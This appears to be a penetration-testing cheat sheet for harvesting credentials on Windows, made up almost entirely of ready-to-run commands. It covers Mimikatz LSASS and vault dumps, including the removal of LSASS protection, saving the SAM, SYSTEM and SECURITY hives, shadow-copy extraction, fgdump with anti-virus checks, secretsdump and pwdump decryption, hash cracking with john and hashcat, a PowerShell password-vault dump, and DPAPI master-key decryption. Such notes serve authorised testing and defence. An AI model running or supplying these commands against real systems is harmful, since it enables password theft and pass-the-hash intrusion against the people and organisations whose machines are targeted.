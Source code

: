 # Credentials harvesting

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords //NTLM and SHA1 hashes
sekurlsa::credman        //vault credentials
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred    //vault credentials
vault::list    //credman plaintext passwords
```

if the logonpassword command returns an error `Handle on memory (0x00000005)` use the following commands in Mimikatz to disable LSASS protection

```
!+
!processprotect /process:lsass.exe /remove
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## SAM credentials dump

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes. All the following operations require Admin privileges

Enumerate existing copies

```
vssadmin list shadows
```

Create a new shadowCopy archive

```
wmic shadowcopy call create Volume='C:\'
```

Create a link to the copy

<pre><code><strong>mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\&#x3C;shadow copy volume name>\
</strong></code></pre>

IF you're unable to navigate the link due to access permission errors It is still possible to extract files from the shadow copy

```
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\sam <dest>\sam
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\system <dest>\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

<pre><code>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> LOCAL
<strong>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> -security &#x3C;sec file> LOCAL
</strong></code></pre>

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks. In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## Vault credentials dump

Enumerate credentials manager entries

```
vaultcmd /list
VaultCmd /listcreds:"<entry name>"
```

Dump credentials associated with the vault entry

```
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```

## DPAPI hash dump

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```
